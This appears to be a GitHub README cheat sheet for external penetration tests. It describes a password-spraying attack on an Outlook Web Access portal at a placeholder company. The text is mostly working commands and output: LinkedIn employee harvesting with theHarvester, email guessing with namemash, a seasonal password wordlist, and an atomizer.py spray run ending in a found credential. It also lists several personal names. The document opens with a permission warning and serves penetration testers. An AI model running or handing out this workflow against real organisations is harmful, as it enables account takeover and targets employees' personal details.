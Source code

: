 # JustBreakIn
JustBreakIn, a cheat sheet which will aid you through external network engagements.

## Tools I use for External Network Pentests ##
- gowitness
- dnsx
- subfinder
(A combonation both of dnsx & subfinder)

## Performing OSINT to break into an external portal such as OWA.
First and formost, please only do this if you have permission. Doing this against random companies on the internet is illegal! You have been warned.

First we perform an OSINT on "TBA" using `theHarvester`. 

```
theHarvester -d https://www.megacorpinc.com/ -l 100 -b linkedin

*******************************************************************
*  _   _                                            _             *
* | |_| |__   ___    /\  /\__ _ _ ____   _____  ___| |_ ___ _ __  *
* | __|  _ \ / _ \  / /_/ / _` | '__\ \ / / _ \/ __| __/ _ \ '__| *
* | |_| | | |  __/ / __  / (_| | |   \ V /  __/\__ \ ||  __/ |    *
*  \__|_| |_|\___| \/ /_/ \__,_|_|    \_/ \___||___/\__\___|_|    *
*                                                                 *
* theHarvester 3.2.3                                              *
* Coded by Christian Martorella                                   *
* Edge-Security Research                                          *
* cmartorella@edge-security.com                                   *
*                                                                 *
******************************************************************* 


[*] Target: https://www.megacorpinc.com/ 
 
        Searching 100 results.
[*] Searching Linkedin. 

[*] Users found: 11
---------------------
Bill Taylor - Product Support Sales Reprentative 
Chris Barry - Chief Engineer 
David Austin 
Hugo Lahnstein 
James Vallejos - Safety Manager 
John Liu - Ceo 
Lazaro Abrenica 
Lovely Bonnet - Virtual Assistant 
Qingshuo Wang 
Volkan Ediz - Chief Revenue Officer 
bob bob bill bobo - big shot 

[*] No IPs found.

[*] No emails found.

[*] No hosts found.
```

Next we add the user output to a file:
```
vi employees.txt                                                            
Bill Taylor - Product Support Sales Reprentative 
Chris Barry - Chief Engineer 
David Austin 
Hugo Lahnstein 
James Vallejos - Safety Manager 
John Liu - Ceo 
Lazaro Abrenica 
Lovely Bonnet - Virtual Assistant 
Qingshuo Wang 
Volkan Ediz - Chief Revenue Officer
```

We then perform some `cut` to get the names in a clean output:
```
cat employees.txt| cut -d ' ' -f 1,2 > employees_new.txt
```

This gives us a cleaner output:
```
cat employees_new.txt                                   
Bill Taylor
Chris Barry
David Austin
Hugo Lahnstein
James Vallejos
John Liu
Lazaro Abrenica
Lovely Bonnet
Qingshuo Wang
Volkan Ediz
```

Next we clone namemash and give it execute permissions:

```
sudo git clone https://gist.github.com/superkojiman/11076951 /opt/namemash; sudo chmod +x /opt/namemash/namemash.py
```

Finally we use namemash and sed to get full email addresses outputted to `possible-emails.txt`:

```
/opt/namemash/namemash.py employees_new.txt | sed 's/$/@megacorpinc.com/g' > possible-emails.txt
```

This creates us 110 possible emails used to spray for the usernames:
```
wc -l possible-emails.txt 
110 possible-emails.txt
```

Below is a sample output for "Bill Taylor":
```
cat possible-emails.txt | head -n10                                                                                                                                                                  
billtaylor@megacorpinc.com
taylorbill@megacorpinc.com
bill.taylor@megacorpinc.com
taylor.bill@megacorpinc.com
taylorb@megacorpinc.com
btaylor@megacorpinc.com
tbill@megacorpinc.com
b.taylor@megacorpinc.com
t.bill@megacorpinc.com
bill@megacorpinc.com
```

Next we can use a wordlist such as the below to spray for the password to the above usernames: 
```
cat english-dates2.txt 
Spring2021
Spring2020
Summer2021
Summer2020
Autumn2021
Autumn2020
Fall2021
Fall2020
Winter2021
Winter2020
January2021
January2020
February2021
February2020
March2021
March2020
April2021
April2020
May2021
May2020
June2021
June2020
July2021
July2020
August2021
August2020
September2021
September2020
October2021
October2020
November2021
November2020
December2021
December2020
```

Finally we can use `https://github.com/byt3bl33d3r/SprayingToolkit/blob/master/atomizer.py` to bruteforce for potential accounts.

```
/opt/SprayingToolkit/atomizer.py owa mail.megacorpinc.com english-dates2.txt  possible-emails.txt -i 0:00:00
```

If you see something like the below, you ae in luck!
```[-] Authentication failed: bill@megacorpinc.com:December2020 (Invalid credentials)

< snipped >

[+] Found credentials: b.taylor@megacorpinc.com:August2021

[+] Dumped 1 valid account to owa_valid_accounts.txt
```

Goodluck and please do this responsibility.  
